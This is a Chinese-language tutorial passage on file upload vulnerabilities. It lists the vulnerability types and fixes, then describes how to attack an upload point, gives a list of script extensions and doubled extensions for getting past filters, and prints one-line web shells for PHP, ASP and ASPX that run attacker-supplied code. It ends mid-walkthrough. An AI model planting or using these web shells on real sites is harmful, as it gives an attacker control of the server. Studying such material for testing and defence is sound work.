 ## 文件上传漏洞
文件上传漏洞分为：

1. 直接文件上传，属于高危漏洞的一种，能直接getshell，而且没有任何限制，攻击者很容易通过上传点，获取网站的控制权限；
2. 有条件的上传漏洞，这种漏洞一般是开发者经验不足，对文件上传做了简单的限制，如简单的前端认证；
3. 文件头文件检测，这种检测行为，可以完全绕过的；
4. 权限认证没处理，没有对文件上传页面进行权限认证，匿名者就能访问上传文件，上传网页后门到网站目录，控制整个网站；
5. 上传逻辑有问题，导致文件上传可以被绕过，上传后门到网站上。
6. 有的文件上传漏洞则是通过中间件或者系统特性上传可以被服务器解析脚本文件，从而导致网站可被控制。
## 文件上传漏洞的修复方案

- 在网站中需要存在上传模块，需要做好权限认证，不能让匿名用户可访问。
- 文件上传目录设置为禁止脚本文件执行。这样设置即使被上传后门的动态脚本也不能解析，导致攻击者放弃这个攻击途径。
- 设置上传白名单，白名单只允许图片上传如，jpg png gif 其他文件均不允许上传
- 上传的后缀名，一定要设置成图片格式如 jpg png gif
## 文件上传的攻击方法
寻找测试网站的文件上传的模块，常见 头像上传，修改上传，文件编辑器中文件上传，图片上传、媒体上传等，通过抓包上传恶意的文件进行测试，上传后缀名 asp php aspx 等的动态语言脚本，查看上传时的返回信息，判断是否能直接上传，如果不能直接上传，再进行测试上传突破，例如上传文件的时候只允许图片格式的后缀，但是修改文件时，却没有限制后缀名，图片文件可以修改成动态语言格式如 php，则可能访问这个文件的 URL 直接 getshell，可以控制网站。
## 一句话木马
可执行脚本的文件后缀名，可被网站目录解析。以下是常见的后缀名
```
asp
asa
cdx
cer
php
aspx
ashx
jsp
php3
php.a
shtml
phtml
有些网站会对 asp 或者 php 进行过滤转成空可用这些后缀名。
aspasp asaspp
phpphp
```
一句话木马可以让服务器执行入侵者指定的命令
```
php的一句话木马： <?php @eval($_POST['pass']);?>
asp的一句话是：   <%eval request ("pass")%>
aspx的一句话是：  <%@ Page Language="Jscript"%> <%eval(Request.Item["pass"],"unsafe");%>
```
将php的一句话木马上传到服务器上
![image-20240128181655228](07.%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E/image-20240128181655228.png)
让服务器执行cmd命令
查看服务器php环境